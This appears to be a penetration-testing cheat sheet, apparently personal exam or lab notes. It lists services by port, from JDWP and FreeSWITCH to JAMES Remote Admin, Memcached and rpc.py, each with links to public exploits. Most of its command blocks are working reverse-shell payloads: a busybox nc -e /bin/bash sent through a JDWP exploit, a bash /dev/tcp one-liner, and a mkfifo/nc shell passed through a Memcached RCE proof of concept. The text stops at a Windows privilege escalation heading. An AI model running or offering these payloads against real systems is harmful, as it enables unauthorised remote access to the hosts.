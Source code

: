 ### 8000 - JDWP

> https://github.com/hugsy/jdwp-shellifier
> 

```jsx
./jdwp.py -t 192.168.1.1 -p 8000   --cmd 'busybox nc 192.168.1.1 8080 -e /bin/bash' 
 nc 192.168.206.1 5000 -z 
```

### 8021 - FreeSWITCH

```jsx
https://www.exploit-db.com/exploits/47799
```

### >10000 (intentional)

JAMES Remote Admin 2.3.2

```jsx
https://www.exploit-db.com/exploits/35513
payload = '/bin/bash -i >& /dev/tcp/192.168.45.201/4444 0>&1'
```

### **11211 -** Memcached

Memcached 1.4.33 RCE exploit 

```jsx
//https://github.com/CarlosG13/CVE-2021-33026
python3 poc.py --rhost 192.168.185.1 --rport 5000 --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.1 80 >/tmp/f" --cookie "session:650469fb-98ab-4dc5-ad58-00a40eb6658c"
```

### 65432 - rpc.py

rpc.py in /opt

```jsx
https://www.exploit-db.com/exploits/50983
```

### Unknown

grab banner

```jsx
nc <ip> <port>
```

# Privilege Escalation

## **Windows**
